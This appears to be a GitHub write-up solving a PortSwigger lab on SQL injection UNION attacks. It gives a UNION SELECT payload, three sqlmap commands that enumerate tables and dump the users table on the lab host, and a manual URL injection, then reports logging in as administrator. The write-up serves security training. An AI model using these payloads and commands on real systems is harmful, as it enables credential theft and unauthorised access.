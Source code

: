 # SQL injection UNION attack, retrieving data from other tables

[Lab in PortSwigger](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

## Definition
When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data.

Suppose that:

- The original query returns two columns, both of which can hold string data.
- The injection point is a quoted string within the WHERE clause.
- The database contains a table called users with the columns username and password.

In this situation, you can retrieve the contents of the users table by submitting the input:
```sql
' UNION SELECT username, password FROM users--
```

Of course, the crucial information needed to perform this attack is that there is a table called users with two columns called username and password. Without this information, you would be left trying to guess the names of tables and columns. In fact, all modern databases provide ways of examining the database structure, to determine what tables and columns it contains. 

## Notes
This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

**SQLMAP**  
Through [sqlmap](https://github.com/sqlmapproject/sqlmap) was possible to confirm the sql injection flaw as well as retrieve sensitive information from the database.

The following images presents the sequence of steps executed in order to find the table responsible for holder user's credentials and list  its content.
  
```bash
python3 sqlmap.py -u "https://0aae00b704c6cbc8c04e5097007000ce.web-security-academy.net/filter?category=Pets" -v --tables --exclude-sysdbs
```
![Listing tables using sqlmap](images/image01.png)
  
```bash
python3 sqlmap.py -u "https://0aae00b704c6cbc8c04e5097007000ce.web-security-academy.net/filter?category=Pets" -v --dbms POSTGRES --columns -D public
```
![Listing table's columns using sqlmap](images/image02.png)
  
```bash
python3 sqlmap.py -u "https://0aae00b704c6cbc8c04e5097007000ce.web-security-academy.net/filter?category=Pets" -v --dump -T users
```
![Dumping user's credencials](images/image04.png)

**MANUALLY**

Alternatively, is possible achieve the same result manually by injecting the SQL statement below in the category parameter:
```
?category=Lifestyle'+UNION+SELECT+username,password+FROM+users--
```
![Manual SQL injection](images/image05.png)
  
![Dumping user's credencials on page](images/image06.png)

**PRIVILEGED ACCESS**

The image below shows the `My Account` page after a successfully login as administrator.
  
![Login as administrator](images/image07.png)

## Key Words
> sql injection, union, retrieving information, sqlmap